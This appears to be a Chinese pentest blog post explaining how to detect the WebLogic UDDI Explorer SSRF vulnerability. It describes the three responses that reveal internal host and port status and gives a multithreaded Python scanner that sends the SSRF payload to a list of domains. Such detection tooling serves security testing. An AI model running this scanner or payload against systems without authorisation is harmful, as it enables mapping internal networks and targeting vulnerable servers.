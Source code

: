 +++
date = "2017-04-14T14:43:52+08:00"
description = ""
draft = false
tags = ["ssrf"]
title = "检测WebLogic是否存在SSRF"
topics = ["Python","Pentest"]

+++

### 0x00 weblogic返回状态
weblogic的ssrf漏洞测试3种状态，返回如下：

* 同网段不存在的主机
![](/img/post/weblogic-check-host-down.png)

* 同网段主机存活但端口不开放
![](/img/post/weblogic-check-host-up-port-down.png)

* 同网段主机存活且端口开放
![](/img/post/weblogic-check-host-up-port-up.png)

### 0x01 检测脚本如下
```python
#!/usr/bin/env python  
# -*- coding: utf-8 -*-

import re
import sys
import Queue
import requests
import threading

from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

queue = Queue.Queue()
mutex = threading.Lock()

class Weblogic_SSRF_Check(threading.Thread):
    """docstring for Weblogic_SSRF_Check"""
    def __init__(self, queue):
        threading.Thread.__init__(self)
        self.queue = queue

    def check(self,domain,ip):
        payload = "uddiexplorer/SearchPublicRegistries.jsp?operator={ip}&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search".format(ip=ip)
        url = domain + payload

        try:
            html = requests.get(url=url, timeout=15, verify=False).content

            m = re.search('weblogic.uddi.client.structures.exception.XML_SoapException',html)
            if m:
                mutex.acquire()
                with open('ssrf.txt','a+') as f:
                    print "%s has weblogic ssrf." % domain
                    f.write("%s has weblogic ssrf.\n" % domain)
                mutex.release()
        except Exception,e:
            pass

    def get_registry(self,domain):
        payload = 'uddiexplorer/SetupUDDIExplorer.jsp'
        url = domain + payload

        try:
            html = requests.get(url=url, timeout=15, verify=False).content
            m = re.search('<i>For example: (.*?)/uddi/uddilistener.*?</i>',html)
            if m:
                return m.group(1)
        except Exception,e:
            pass

    def run(self):
        while not self.queue.empty():
            domain = self.queue.get()
            mutex.acquire()
            print domain
            mutex.release()
            ip = self.get_registry(domain)
            self.check(domain,ip)

            self.queue.task_done()


if __name__ == '__main__':
    with open('domain.txt','r') as f:
        lines = f.readlines()
    for line in lines:
        queue.put(line.strip())

    for x in xrange(1,50):
        t = Weblogic_SSRF_Check(queue)
        t.setDaemon(True)
        t.start()
    queue.join()
```